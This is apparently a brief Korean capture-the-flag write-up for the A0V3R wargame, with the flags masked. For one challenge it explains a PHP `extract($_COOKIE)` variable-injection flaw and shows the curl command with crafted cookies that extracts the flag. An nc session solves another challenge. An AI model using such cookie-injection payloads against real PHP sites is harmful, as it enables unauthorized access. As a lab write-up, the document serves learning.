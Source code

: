 # A0V3R Wargame
문제 문서화가 잘 되어 있어서 좋았다.

## Hand of plus
`extract($_COOKIE);`에서 취약점이 발생한다.

```
curl -v --cookie "HTTP_ACCEPT_ENCODING=I;HTTP_USER_AGENT=need;HELLO=a;WORLD=flag" http://server2.aover.team/Web/Hand_of_plus/
```

하면

```js
<script>alert('[Suzukaze aoba says]\nWow! I finally my graphics card mined the beatcoin!\nHere\'s a little prize!\nA0V3R{*********************}');</script>
```

`A0V3R{*********************}`

## 아오바 워게임 디스코드 
`A0V3R{*******************************************}`

## King bases on 8,8
`A0V3R{**********************}`

## No_Random_No_Life
```
$ nc server2.aover.team 12345
5 나와야됨
하하 원하는 숫자가 나오지 않았네~
8
$ nc server2.aover.team 12345
5 나와야됨
A0V3R{**************}
```
